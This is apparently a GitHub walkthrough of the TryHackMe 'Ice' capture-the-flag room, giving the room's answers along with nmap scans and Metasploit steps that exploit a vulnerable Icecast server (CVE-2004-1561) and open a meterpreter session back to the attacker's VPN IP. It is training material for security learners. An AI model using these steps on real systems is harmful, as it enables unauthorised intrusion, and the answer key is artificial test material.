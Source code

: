 # TryHackMe-ice-Walkthrough
Deploy &amp; hack into a Windows machine, exploiting a very poorly secured media server.

![ice bg](https://user-images.githubusercontent.com/120317751/230588239-c2b3596b-8fb5-460c-8556-2e9f9d72a5ae.png)


![ice](https://user-images.githubusercontent.com/120317751/230573629-a0156837-a602-42ed-ac27-d7dccee48dcc.jpg)


<br>

<h2>Download VPN File from Release Section :</h2>

Link: https://github.com/Sumit-CyberSecurity/TryHackMe-ice-Walkthrough/releases/download/ice/sumit5011.ovpn
 
 
 🔴 Important :  Please rename this VPN file as per your TryHackMe account username

<b><H2>Task 1 Connect</b></H2>
<br>

Click on Access Machine --> Click on OpenVPN (How to connect & config VPN)



![ice (1)-min](https://user-images.githubusercontent.com/120317751/230582828-2ae90b78-e403-45c7-a745-8c99c66e4f57.gif)

<br>

<b><H2>Task 2 Recon</b></H2>




![image](https://user-images.githubusercontent.com/120317751/230583696-bf067667-dbad-44cc-a79a-ea0aa36ee73b.png)

<B>Scan and enumerate our victim!</B>

Answer the questions below ----------------------------------------------------------------------------------------------------------------------------------------


Deploy the machine! This may take up to three minutes to start.

     No answer needed
         
Launch a scan against our target machine, I recommend using a SYN scan set to scan all ports on the machine. The scan command will be provided as a hint, however, it's recommended to complete the room 'Nmap' prior to this room.  

     No answer needed
         

Once the scan completes, we'll see a number of interesting ports open on this machine. As you might have guessed, the firewall has been disabled (with the service completely shutdown), leaving very little to protect this machine. One of the more interesting ports that is open is Microsoft Remote Desktop (MSRDP). What port is this open on?

     3389
           
Command: (Your Start Machine IP)

    sudo nmap -sT -sV -O -Pn 10.10.254.30 
           
           

![Screenshot from 2023-04-07 15-30-12](https://user-images.githubusercontent.com/120317751/230589653-59731a6c-d70d-4845-ba58-e52761203d58.png)


What service did nmap identify as running on port 8000? (First word of this service)

     Icecast
     
![Screenshot from 2023-04-08 22-48-33](https://user-images.githubusercontent.com/120317751/230734526-6883e1b8-d151-4b32-8318-144fd4a2b393.png)


Exploit 8000/tcp with Below command
 
     sudo nmap -sT -sV -O -Pn -p 8000 10.10.95.145
     
Output:

![Screenshot from 2023-04-08 22-53-56](https://user-images.githubusercontent.com/120317751/230734733-2672c950-e305-45ce-b63e-515319b35015.png)



What does Nmap identify as the hostname of the machine? (All caps for the answer)

     DARK-PC
     
Open Metasploit:

    msfconsole
    
![Screenshot from 2023-04-08 23-03-03](https://user-images.githubusercontent.com/120317751/230735200-56faf365-2ce7-4982-a982-51e36e574838.png)

        Search icecast
        
        
![Screenshot from 2023-04-08 23-07-42](https://user-images.githubusercontent.com/120317751/230735337-c5ede574-4dd4-41d9-888c-8cea76a72edc.png)


        use exploit/windows/http/icecast_header
  

![Screenshot from 2023-04-08 23-07-42](https://user-images.githubusercontent.com/120317751/230735593-68a0f040-4ab9-46b3-9bc8-70887c84b3a6.png)

         options
         
         
![Screenshot from 2023-04-08 23-16-11](https://user-images.githubusercontent.com/120317751/230735732-909b6421-e649-4217-8ba4-8e3a42a36b57.png)


         set rhosts 10.10.95.145
         

![Screenshot from 2023-04-08 23-20-04](https://user-images.githubusercontent.com/120317751/230735882-24c8babc-0dfc-4cbd-af1b-5b288719d988.png)


         set lhost 10.8.83.18     (VPN IP)
         
         
![Screenshot from 2023-04-08 23-23-50](https://user-images.githubusercontent.com/120317751/230736078-6b5e8588-b71c-4af7-879d-6d1d22100e60.png)

          exploit
          
          
![Screenshot from 2023-04-08 23-29-47](https://user-images.githubusercontent.com/120317751/230736204-cb2c9eb3-8e8a-4399-aec3-5580e8aaf839.png)

Type sysinfo after get meterpreter session   
   
        meterpreter > sysinfo 
        
![Screenshot from 2023-04-08 23-35-41](https://user-images.githubusercontent.com/120317751/230736425-e7fdc379-ff1c-4525-ad50-b3ed2b8fc467.png)


Finally get Hostname


![Screenshot from 2023-04-08 23-36-46](https://user-images.githubusercontent.com/120317751/230736452-303fb127-221c-4bb0-9885-d35c3bf7f5bf.png)



 
<b><H2>Task 3 Gain Access</b></H2>   

![Screenshot from 2023-04-08 00-02-27](https://user-images.githubusercontent.com/120317751/230659913-1bd61fde-2956-4235-bccd-54edef6b37ac.png)


Exploit the target vulnerable service to gain a foothold!

Answer the questions below ----------------------------------------------------------------------------------------------------------------------------------------


Now that we've identified some interesting services running on our target machine, let's do a little bit of research into one of the weirder services identified: Icecast. Icecast, or well at least this version running on our target, is heavily flawed and has a high level vulnerability with a score of 7.5 (7.4 depending on where you view it). What type of vulnerability is it? Use https://www.cvedetails.com for this question and the next.

     execute code overflow
     

What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

      CVE-2004-1561
      
Now that we've found our vulnerability, let's find our exploit. For this section of the room, we'll use the Metasploit module associated with this exploit. Let's go ahead and start Metasploit using the command `msfconsole`      

       No answer needed


After Metasploit has started, let's search for our target exploit using the command 'search icecast'. What is the full path (starting with exploit) for the exploitation module? This module is also referenced in 'RP: Metasploit' which is recommended to be completed prior to this room, although not entirely necessary. 

      exploit/windows/http/icecast_header
      

Let's go ahead and select this module for use. Type either the command `use icecast` or `use 0` to select our search result.

        No answer needed
        
Following selecting our module, we now have to check what options we have to set. Run the command `show options`. What is the only required setting which currently is blank?

         rhosts![Screenshot from 2023-04-08 23-03-03](https://user-images.githubusercontent.com/120317751/230735096-832b811d-884a-438f-98f8-6f815ab5a593.png)

         

First let's check that the LHOST option is set to our tun0 IP (which can be found on the access page). With that done, let's set that last option to our target IP. Now that we have everything ready to go, let's run our exploit using the command `exploit`

         No answer needed






